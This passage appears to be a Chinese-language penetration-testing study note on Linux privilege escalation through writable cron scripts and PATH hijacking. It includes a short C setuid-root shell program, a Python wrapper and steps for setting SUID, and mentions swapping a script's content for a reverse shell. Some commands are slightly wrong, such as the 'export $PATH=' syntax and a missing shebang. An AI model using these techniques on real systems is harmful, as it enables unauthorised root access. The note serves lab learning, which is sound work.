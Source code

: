 ### CronJob定时任务

定时任务通常被设置用于备份文件、清理目录内容等。crontab命令可以创建一个cron文件，以指定的时间区间运行。

可以查看`/etc/crontab`查看CronJob文件

root用户的crontab能被root用户或完全sudo权限的用户编辑。可以在此时查找一个以root用户身份运行的当前用户可更改的读写脚本。![image-20220826181035143](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826181035143.png)

1. 找到一个可读写更改的脚本
2. 更改其内容进行反弹shell的操作
3. 如果目标机器的CronJob存在，但文件已被删除，如
   ![image-20220826201216813](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826201216813.png)
   如果未定义脚本的完整路径，cron 将引用 /etc/crontab 文件中 PATH 变量下列出的路径。可以被当前用户利用。

### 环境变量提权

`PATH` 是Linux 和 Unix 操作系统中的环境变量，它指定存储可执行程序的所有bin和sbin目录。当用户在终端上执行任何命令时，它会通过PATH变量来响应用户执行的命令，并向shell发送请求以搜索可执行文件。超级用户通常还具有/sbin和/usr/sbin条目，以便于系统管理命令的执行。

![image-20220826220328647](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826220328647.png)

1. 找到可写目录`find / -writable 2>/dev/null`

2. 修改PATH的内容，通常将当前用户由执行权限的目录添加至PATH的最先位置，`export $PATH=新添加的目录:$PATH`

3. 编写脚本，写入想执行的命令。可以是`/bin/bash`或C语言等脚本
   例子：

   - C语言脚本

     ```c
     #include<unistd.h>
     void main()
     {
             setuid(0);
             setgid(0);
             system("bash");
     }
     ```

   - python脚本

     ```python
     /usr/bin/python3
     
     import os
     import sys
     
     try: 
             os.system("thm")
     except:
             sys.exit()
     ```

4. chmod u+s 文件设置suid权限
